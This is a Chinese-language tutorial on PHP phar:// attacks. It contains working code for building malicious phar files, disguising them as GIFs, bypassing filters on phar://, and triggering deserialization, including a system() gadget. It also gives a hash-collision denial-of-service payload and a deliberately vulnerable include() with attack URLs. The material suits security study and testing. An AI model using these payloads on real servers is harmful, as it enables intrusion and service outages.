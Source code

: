 # Phar的文件包含与反序列化

## 反序列化

### 参考

- https://blog.zsxsoft.com/post/38
- https://paper.seebug.org/680/

### 利用条件

- phar文件要能够上传到服务器端。
- 存在`__destruct`,`__wakeup`魔术方法作为跳板
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。

### 受影响的函数列表

![](../images/19-1-19_2018总结-PHP篇_利用类进行反序列化Phar1.png)
对于函数影响范围的深入追求参看[zsx](https://blog.zsxsoft.com/post/38)师傅的文章，简单如下：

- exif (exif_thumbnail、exif_imagetype)
- gd (imageloadfont、imagecreatefrom..)
- hash (hash_hmac_file、hash_file、hash_update_file、md5_file、sha1_file)
- file/url (get_meta_tags、get_headers)
- standard (getimagesize、getimagesizefromstring)
- zip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
- Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
- MySQL (要设置local-infile=1、secure_file_priv=""，因为是非默认设置)
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```

### 利用

#### 测试

##### 生成恶意phar代码

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php phpinfo();__HALT_COMPILER();?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

其中`xxx<?php xxx; __HALT_COMPILER();?>`是phar文件的stub，可用理解为一个身份id。其中stub的内容必须以`__HALT_COMPILER();?>`结尾，否则phar扩展将无法识别这个文件为phar文件。具体参考[seebug](https://paper.seebug.org/680/)的文章。

##### phar反序列化已构造的恶意php文件

```php
<?php 
    class TestObject {
    	public function __wakeup() {
            echo 'Destruct wakeup';
        }
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

![](../images/19-7-13_Phar的文件包含与反序列化_反序列化_1.png)

##### Bypass

如果waf过滤了phar://，则可以使用：

```
compress.bzip2://phar://
compress.zlib://
```

##### 伪造为其他类型的文件

phar文件可通过添加幻术伪造为其他类型的文件

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_2.png)

## 拒绝服务攻击

### PHP内核哈希表碰撞攻击

进行拒绝服务攻击(PHP内核哈希表碰撞攻击（CVE-2011-4885）)

```php
<?php
set_time_limit(0);
$size= pow(2, 16);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$new_obj = new stdClass;
$new_obj->hacker = $array;
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['hacker.php'] = '<?php ?>';
$p->setMetadata($new_obj);
$p->setStub('GIF<?php __HALT_COMPILER();?>');
```
反序列化上文生成的恶意文件

```php
<?php
set_time_limit(0);
$startTime = microtime(true);
file_exists("phar://avatar.phar");
$endTime = microtime(true);
echo '执行时间：  '.($endTime - $startTime). ' 秒'; 
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_3.png)

## 文件包含

### 利用范围

- PHP 5 >= 5.3.0、 PECL phar >= 1.0.0
- PHP 7、 PECL phar >= 1.0.0

### 参考

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

### 测试代码

index.php

```php
<?php
include($_GET['file']);
?>
```
shell.txt
```php
<?php phpinfo() ?>
```
把sehll.txt压缩成test.zip文件

可用以下姿势进行包含
```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/shell.txt   //绝对路径
index.php?file=phar://test.zip/shell.txt   //相对路径
```

![](../images/19-7-23_PHP_Phar的文件包含与反序列化_文件包含_1.png)

### 